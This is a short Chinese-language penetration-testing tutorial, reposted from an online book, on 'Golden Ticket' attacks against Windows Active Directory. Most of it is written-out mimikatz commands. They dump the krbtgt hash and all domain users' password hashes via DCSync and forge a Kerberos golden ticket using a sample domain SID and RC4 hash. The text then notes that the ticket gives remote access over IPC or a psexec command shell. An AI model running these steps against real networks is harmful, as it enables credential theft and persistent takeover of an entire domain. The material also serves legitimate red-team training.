


> 原文：[http://book.iwonder.run/域渗透/5.1.2.html](http://book.iwonder.run/域渗透/5.1.2.html)

### 5.1.2 黄金票据利用

#### 1、导出 krbtgt 密码 hash

```
mimikatz#lsadump::dcsync /domain:adtest.com /user:krbtgt 
```



导出所有域内用户密码 hash 值:

```
mimikatz#lsadump::dcsync /domain:adtest.com /all /csv 
```


#### 2、获取域 SID

在导出 krbtgt 的 hash 的时候已经包含了域 SID，也可以用以下命令来查看域 SID

```
whoami /all 
```


#### 3、伪造黄金票据

```
mimikatz.exe privilege::debug "kerberos::golden /domain:adtest.com /sid:S-1-5-21- 3418659180-3421952656-1938706522 /target:WIN-9P499QKTLDO.ADTEST.COM /service:cifs /rc4: 6f0fdf50f2dcee2fed8e2e3eae7e1592 /user:aaa /ptt" 
```

这里可以不指定 target 和 service

```
kerberos::golden /domain:adtest.com /sid:S-1-5-21-3418659180-3421952656-
1938706522 /rc4:6f0fdf50f2dcee2fed8e2e3eae7e1592 /user:aaa /ptt 
```


使用 klist 查看本地缓存的票据


获得票据后可直接通过 dir 远程访问主机，可以直接使用 ipc 进行连接:



当然也可以使用 psexec 去获得一个 cmdshell:


> 注:普通黄金票据不能跨域使用;TGT 有效时间为 20 分钟;。

